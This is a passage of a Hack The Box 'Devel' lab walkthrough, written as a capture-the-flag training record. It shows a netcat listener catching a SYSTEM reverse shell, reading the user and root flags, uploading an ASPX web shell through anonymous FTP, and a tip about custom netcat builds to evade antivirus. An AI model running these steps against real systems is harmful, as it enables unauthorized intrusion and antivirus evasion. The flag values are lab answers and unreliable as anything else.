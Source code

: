 ```bash
┌──(kali㉿kali)-[~/htb/Devel]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.10.14.70] from (UNKNOWN) [10.10.10.5] 49317
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\babis\Desktop\user.txt
type C:\Users\babis\Desktop\user.txt
5bd80c8f56772245dd8f485e4f0e269b

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
7127bf7539ba76dacaa86880023403b4

C:\Windows\system32>
```


# Additional
---

## Use custom netcat to evade anti virus

The netcat binary can be either written in `nim`, `go-lang`, `python`. `rust` or any other programming languages

> Not including the source code for de-identification

```bash
┌──(kali㉿kali)-[~/htb/Devel]
└─$ locate webshell|grep aspx
...
/usr/share/webshells/aspx/cmdasp.aspx

┌──(kali㉿kali)-[~/htb/Devel]
└─$ ln -s /usr/share/webshells/aspx/cmdasp.aspx

┌──(kali㉿kali)-[~/htb/Devel]
└─$ ftp ftp://anonymous:''@10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
200 Type set to I.
ftp> put cmdasp.aspx
local: cmdasp.aspx remote: cmdasp.aspx
229 Entering Extended Passive Mode (|||49336|)
125 Data connection already open; Transfer starting.
100% |********************************************************************************************************************************************************************|  1400       20.22 MiB/s    00:00 ETA
226 Transfer complete.
1400 bytes sent in 00:00 (22.65 KiB/s)
ftp>
```
